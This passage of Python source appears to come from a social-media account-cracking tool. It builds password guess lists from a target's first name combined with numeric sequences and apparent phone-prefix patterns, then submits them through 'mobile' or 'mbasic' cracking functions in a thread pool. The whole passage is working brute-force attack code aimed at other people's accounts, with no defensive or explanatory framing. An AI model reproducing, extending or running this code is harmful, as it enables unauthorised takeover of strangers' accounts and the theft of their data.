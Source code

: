 					pwv.append(frs+'07800780')
					pwv.append(frs+'0770')
					pwv.append(frs+'07700770')
					pwv.append(frs+'0751')
					pwv.append("123"+frs)
					pwv.append("1234"+frs)
					pwv.append("12345"+frs)
					pwv.append("123456"+frs)
					pwv.append("1234567"+frs)
					pwv.append("12345678"+frs)
					pwv.append("123456789"+frs)
					pwv.append(frs+'123321')
					pwv.append('07500750')
					pwv.append('07700770')
					pwv.append(frs+'1122')
					pwv.append(frs+'112233')
					pwv.append(frs+'11223344')
					pwv.append(frs+'1122334455')
					pwv.append(frs+'112233445566')
					pwv.append(frs+frs)
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'12')
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'123456')
					pwv.append(frs+'1234567')
					pwv.append(frs+'1234567890')
					pwv.append(frs+'0750')
					pwv.append(frs+'07500750')
					pwv.append(frs+'0780')
					pwv.append(frs+'07800780')
					pwv.append(frs+'0770')
					pwv.append(frs+'07700770')
					pwv.append(frs+'0751')
					pwv.append("123"+frs)
					pwv.append("1234"+frs)
					pwv.append("12345"+frs)
					pwv.append("123456"+frs)
					pwv.append("1234567"+frs)
					pwv.append("12345678"+frs)
					pwv.append("123456789"+frs)
					pwv.append(frs+'123321')
					pwv.append('07500750')
					pwv.append('07700770')
					pwv.append(frs+'1122')
					pwv.append(frs+'112233')
					pwv.append(frs+'11223344')
					pwv.append(frs+'1122334455')
					pwv.append(frs+'112233445566')
					pwv.append(frs+frs)
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crackmobile_MRBX,idf,pwv,nmf)
			elif 'mbasic' in method:
				pool.submit(crackmbasic_MRBX,idf,pwv,nmf)
			else: